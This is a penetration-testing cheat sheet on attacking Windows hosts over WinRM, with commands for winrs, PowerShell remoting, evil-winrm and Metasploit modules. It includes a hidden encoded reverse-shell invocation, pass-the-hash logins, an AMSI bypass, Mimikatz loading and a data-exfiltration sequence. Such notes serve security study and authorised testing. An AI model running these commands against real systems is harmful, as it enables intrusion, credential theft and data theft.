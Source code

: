 # Windows Remote Management (WinRM)

WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

TCP port 5985 and 5986 (HTTPS)

- <https://en.wikipedia.org/wiki/WS-Management>


Is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems on the internet.
- Manage and configure Windows systems remotely.

WinRM implements access control and security for communication between systems through various forms of authentication.


*For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.*














## winrs (Windows Remote Shell)

Only works for domain users

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
# Output:
FILES04
corp\jen
```


To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with a base64 encoded reverse-shell.

```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e [ENCODED SHELL]"
```





### PSSession

PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID:
```
PS C:\Users\jeff> Enter-PSSession 1
PS C:\Users\jeff> whoami # Output: corp\jen
PS C:\Users\jeff> hostname # Output: FILES04
```




#### More commands

Execute a Command in the PSSession: Use Invoke-Command to run a command on the remote machine using the session you created.
```
# Execute a command on the remote computer
Invoke-Command -Session $session -ScriptBlock { Get-Process }

```


Interact with the Remote Session: You can also enter the session to interact with it directly.
```
# Enter the remote session
Enter-PSSession -Session $session

```


Exit and close the session:

```
# Exit the remote session
Exit-PSSession

# Remove the PSSession
Remove-PSSession -Session $session


```





















## Evil-Winrm

- <https://github.com/Hackplayers/evil-winrm>

We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.



```
evil-winrm -i [TARGET IP] -u [USERNAME] -p [PASSWORD]
evil-winrm -i 10.129.136.91 -u administrator -p badminton


evil-winrm -i <IP> -u user -p pass -S #if 5986 port is open


##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash


##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S #-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l




# Upload and download files
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "source" -d "dest"
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "source" -d "dest"

upload <file>
download <file> <filepath-kali> #not required to provide path all time




##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu # to view commands
#There are several commands to run
#This is an example for running a binary
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe












# Script execution
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "powershell_script.ps1"



# Lateral movement
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -smb <TARGET_IP> -h <HASH>


# Data exfiltration
Compress-Archive -Path "data_directory" -DestinationPath "exfiltrated_data.zip"

evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "exfiltrated_data.zip" -d "dest"
















```


























## MSF

auxiliary/scanner/winrm/winrm_auth_methods
auxiliary/scanner/winrm/winrm_login
auxiliary/scanner/winrm/winrm_cmd

exploit/windows/winrm/winrm_script_exec
	set FORCE_VBS true